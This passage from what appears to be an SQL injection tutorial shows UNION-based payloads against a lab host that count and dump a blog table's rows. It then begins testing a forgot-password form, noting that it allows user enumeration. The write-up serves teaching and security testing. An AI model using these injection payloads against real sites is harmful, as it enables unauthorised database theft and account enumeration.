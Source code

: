Request sent:
```
http://10.10.10.31/singlepost.php?id=191+UNION+SELECT+1,2,3,4,count(id)+FROM+blog--+-
```

![Number Of Rows](/sqli-0x02/17_row_count.png)

Unfortunately there are only 3 posts present and there is no hidden content available here. Regardless of that, let's print those out.

Printing out id and it's respective texts out on the screen.

Request:
```
http://10.10.10.31/singlepost.php?id=191+UNION+SELECT+1,2,3,group_concat(%27\r\n%27,0x7c,id,0x7c,%27\r\n%27,text),5+FROM+blog--+-
```

![Blog Dump](/sqli-0x02/18_blog_dump.png)

This request will form a query like below:

``` SQL
SELECT title, author, date, text FROM blog WHERE id=191 UNION SELECT 1,2,3,group_concat('\r\n',0x7c,id,0x7c,'\r\n',text),5 FROM blog--+-
```

Unlike before I used the fourth column to print all the entries out at once because printing it out in any other column would not provide much space to fit all that text.

## Example 2 - Forgot Password

In order to avoid breaking the flow of the previous example, I decided to put the second example at the end in which I'll cover testing as well as exploitation.

Unlike the previous example where it was quite obvious that the parameter was vulnerable and was using GET requests, let's take a look at a forgot password functonality which uses a POST request and has some minor filtering in place.

Before moving onto testing a certain functionality it's important to understand that functionality. Let's take a look at how this particular input field can be interacted.

Landing page:

![Password Reset](/sqli-0x02/19_password_reset.png)

By just sending "admin", it prints out an error "Incorrect Format". This is good, getting errors is nice. When special SQL characters are sent with just "admin" leads to the same error.

![Incorrect Format](/sqli-0x02/20_format.png)

By sending "test@test.com" a different error is prompted - "user not found". Ok, great, we can perform user enumeration.

![User Enumeration Possible](/sqli-0x02/21_user_enum.png)

Now that the validation requirement is met, let's try sending special SQL characters like the ones stated above to test it out.
